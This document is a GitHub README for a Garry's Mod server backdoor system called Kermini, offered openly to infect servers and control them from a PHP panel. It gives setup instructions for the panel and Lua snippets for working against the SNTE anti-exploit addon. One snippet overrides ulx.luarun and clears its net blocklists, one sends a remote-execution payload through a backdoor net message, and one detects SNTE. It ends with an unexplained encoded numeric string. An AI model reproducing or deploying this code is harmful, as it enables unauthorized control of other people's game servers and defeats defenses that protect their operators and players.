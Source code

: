 # Kermini-Backdoor-Gmod
Kermini-Backdoor : a gmod simple backdoor System Initially, I created this for my personal use but I am not an egoist, so keep going and have fun | Do not forget to configure it correctly

backdoor.lua : The file that contain the code to infect servers |Can sometimes spam errors when a player join

 # Kermini Official Discord
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc

# Installation Process | Files
Before Starting be sure to get keys for RecaptchaV2 https://www.google.com/recaptcha/

open index.html and change Captcha Keys 

open main.php and change Database settings and the others options if you want
/Captcha Keys

open class/Config.php and change Database settings


open install folder and change Database settings in register.php
/captcha keys in index.html and register.php

open phpMyAdmin and execute Kermini-s-q-l.sql 

open www.[DOMAIN].com/install and create an account |Delete this folder after this step

Here you go ! Enjoy

# Hey i found an exploit related to the panel !

No problem, just contact me and tell me what is going wrong, i will do my best to resolve it.

# SNTE
https://steamcommunity.com/sharedfiles/filedetails/?id=1308262997

This addon can sometimes block your Payloads so try bypasses 

timer.Simple(0.5, function()
    function ulx.luarun(calling_ply, command)
        print("ez snte")
    end
    bad_net = ""
    local bad_net = ""
    local global_nets = ""
    global_nets = ""
end)
___
local Macro = vgui.Create("DButton", BackGround)
Macro:SetPos(255, 160)
Macro:SetParent(Controller)
Macro:SetTextColor(Color(255, 255, 255, 255))
Macro:SetSize(200, 25)
Macro:SetText("BREAK SNTE")
Macro.Paint = function()
    surface.SetDrawColor(50, 50, 50 , 200)
    surface.DrawRect(0, 0, Macro:GetWide(), Macro:GetTall())
    surface.SetDrawColor(0, 0, 0, 200)
    surface.DrawOutlinedRect(0, 0, Macro:GetWide(), Macro:GetTall())
end
___
Macro.DoClick = function()
    net.Start(netKey)
        net.WriteString([[
            _G.SNTE = function() end
        ]])
        net.WriteBit(1)
    net.SendToServer()
    chat.AddText(Color(255,204,153), "亗ADM TEAM", Color(255, 255, 255), "LANCER !" )
    SploitNotify("LANCER")
    surface.PlaySound("buttons/button15.wav")
end

# How to detect SNTE ON A SERVER :

local isSNTE = false
if ConVarExists("snte_dupefix") or file.Exists( "autorun/server/snte_source.lua", "LUA" ) == true then
    isSNTE = true
end

if isSNTE then
    chat.AddText(Color(26, 48, 219), "[KERMINI]", Color(35, 142, 219), " SNTE DETECTED")
end

# The code is telling me something 

yep i can code in php but im not a pro designer so i used
- https://github.com/bcool/ULX-Global-Ban/tree/master/WebPage/TCB-Theme-master (For the display)
- And somthing called Gbackdoor (I know there is exploits related to this panel, i made a different code for some parts) 

ps : gbackdoor used only for server adding/update | Payload system have been a little bit modified

                     97/71/86/53/73/72/108/118/100/83/66/51/98/50/52/103/52/111/67/
